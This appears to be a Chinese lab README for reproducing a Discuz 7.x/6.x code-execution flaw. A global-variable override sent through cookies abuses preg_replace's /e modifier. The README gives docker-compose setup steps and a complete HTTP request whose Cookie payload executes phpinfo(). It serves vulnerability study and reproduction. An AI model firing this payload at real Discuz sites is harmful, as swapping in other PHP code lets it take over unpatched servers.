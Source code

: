 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 漏洞环境

执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![](1.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close


```

可见，phpinfo已成功执行：

![](2.png)

> 网上文章说需要一个带表情评论的帖子，实际测试发现并不需要，这块仍需阅读代码来解释原因。